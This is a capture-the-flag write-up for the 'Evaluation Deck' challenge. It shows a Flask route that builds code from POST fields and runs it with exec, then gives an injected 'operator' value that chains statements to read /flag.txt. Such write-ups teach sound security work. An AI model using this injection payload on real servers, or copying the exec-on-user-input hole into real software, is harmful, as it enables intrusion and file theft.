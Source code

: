 # Evaluation Deck
For this challenge I forget to take screenshots during the event so I am running it locally for this writeup. We are given the address of a website and the source code which if a flask web server.

![webpage](/hack_the_boo/evaluation_deck/evaluation_deck.png)

After playing around with the card game for a bit I decided to dig around through the source code and see what stood out. After poking around I saw that an api was exposed, I took my a while to reach it as I forgot to add /api/ before trying to access the endpoints.

### routes.py
```
from flask import Blueprint, render_template, request
from application.util import response

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def index():
    return render_template('index.html')

@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

The red flag for me was in the try section where a formatted string is turned into code to execute.
```
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}
```
All these values a read from a post request, *current_health* and *attack_power* are cast to integers so we need to hide our payload in *operator*. Whatever is stored is in *result* is what gets sent back to us so we need to get the flag stored there. If we sneak some ; in there we can execute multiple statements. After some trial and error I came up with that operator should be:
```
"; f = open('/flag.txt','r'); result = f.read();"
```
The last step was to send it to the server, initally I tried using curl.
![bad curl](/hack_the_boo/evaluation_deck/badrequest.png)
curl did not like having single quotes in my payload so I tried with postman instead and had success.
![postman](/hack_the_boo/evaluation_deck/postman.png)
After reading stackoverflow I figured I needed to use escape characters!
![curl](/hack_the_boo/evaluation_deck/curl.png)
And was able to get the flag using the terminal like a champ :)